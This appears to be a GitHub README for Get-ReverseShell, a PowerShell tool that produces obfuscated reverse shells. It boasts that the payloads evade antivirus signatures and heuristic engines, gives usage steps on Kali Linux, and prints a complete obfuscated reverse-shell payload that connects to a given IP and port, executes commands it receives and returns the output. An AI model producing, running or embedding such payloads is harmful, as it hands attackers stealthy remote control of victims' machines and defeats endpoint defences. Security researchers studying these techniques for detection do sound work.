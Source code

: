 # Obfuscated PowerShell Reverse Shells

Get-ReverseShell is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/invoke-psobfuscation) framework, with the sole purpose of producing obfuscated reverse shells for PowerShell. 

With the way the underlying framework has been written, each execution of this script will produce a different payload. In addition to this as well as the relative complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited code. 

___IMPORTANT___

This tool has been built with the intent to be primarily supported on Kali Linux, however, you are still able to run this script on Windows just the same. While I encourage you to keep this script on Kali, I have added some safeguards for those that will store this on a system with antivirus installed, such as Windows with Defender enabled. 

This is due to the inclusion of a function called `Get-Template` that produces the reverse shell template that is passed through the generator functions. The original payload is prone to being detected across the board due to it's wide-spread popularity. 

To help prevent this function from flagging the entire script after being written to disk, the payload within `Get-Template` has been relatively obfuscated.

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated reverse shells are compatible on systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script in your current session by __dot sourcing__ the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-ReverseShell.ps1
```

If you run the script and supply only an IP address and port, then every supported script component will be obfuscated and output to the console.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

$9bu74RLxidUDk = & (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})(([string]::join('', ( (49,50,55,46,48,46,48,46,49) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_}),$(0+0-0-443+443+443));$kxjaLK6qrECXjf2 = ((& (("tFqYIQ1HnjmkK9PdoUbMzlCR27uv4yEpNxr85L-XSfWJhDiZTac3BGg6wesVOA0")[46,8,27,16,11,57,38,57,33,31,34,57,58,58,46,16,8] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,71,101,116,83,116,114,101,97,109,40,41) |%{ ( [char][int] $_)})) | % {$_})));[byte[]]$9uR0tN24DBEA9YsVNLOnIrx2s = 0..$($(0+60000)+$(0+0-0+5000)+(500)+($(35)))|%{;$_}|%{0};while(($5aH = $kxjaLK6qrECXjf2.Read($9uR0tN24DBEA9YsVNLOnIrx2s, 0, $9uR0tN24DBEA9YsVNLOnIrx2s.Length)) -ne 0){;$jIguPvaSK1ZilFymBVhTA = (& (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') -TypeName ([string]::join('', ( (83,121,115,116,101,109,46,84,101,120,116,46,65,83,67,73,73,69,110,99,111,100,105,110,103) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).GetString($9uR0tN24DBEA9YsVNLOnIrx2s,0, $5aH);$U = (& (("PljCFMKRq1-LpYeVWtNnku2Q8iJT0OzHg7Uxo5svyXh9GcAEawIb643dmfBSZrD")[50,19,39,36,20,14,10,47,35,12,61,14,38,38,25,36,19] -join '') $jIguPvaSK1ZilFymBVhTA 2>&1 |%{;$_}| & (("MTSO1XIqriP2ox4bGsuZtk0wEHhj9f8QnVdaBgcyLFN6Cz3DYWR-l5vUAmKJpe7")[3,18,20,51,2,20,8,9,32,37] -join '') );$GemSDxKaU = $U + $([char](30+87-30)+[char](97*72/97)+[char](106*65/106)+[char](21*84/21)+[char](0+32-0)+[char](88*87/88)+[char](0+72-0)+[char](0+69-0)+[char](0+82-0)+[char](51+69-51)+[char](80+62-80)+[char](42*32/42)) -replace $('W'+'H'+'E'+'R'+'E'),(& ([string]::join('', ( (71,101,116,45,76,111,99,97,116,105,111,110) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).Path -replace $([char](113*87/113)+[char](0+72-0)+[char](104*65/104)+[char](29+84-29)),([string]::join('', ( (80,83) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_});$xz1V87nrk4C9g2omRSHwHrTU1 = ([text.encoding]::ASCII).GetBytes($GemSDxKaU);$kxjaLK6qrECXjf2.Write($xz1V87nrk4C9g2omRSHwHrTU1,0,$xz1V87nrk4C9g2omRSHwHrTU1.Length);$($kxjaLK6qrECXjf2.Flush())};$((& (("KDU-6exQHZgPzTYpVCvijL79Nf4du5ns2F3oym8WSrbGOE10tIqcAJlBwRMhXak")[19,30,18,35,62,5,3,5,6,15,41,5,31,31,19,35,30] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,67,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})))
```

In lieu of having the output sent to the console, we can also have the output saved to a file instead.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -OutFile obfuscated.ps1

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Writing payload to obfuscated.ps1
```
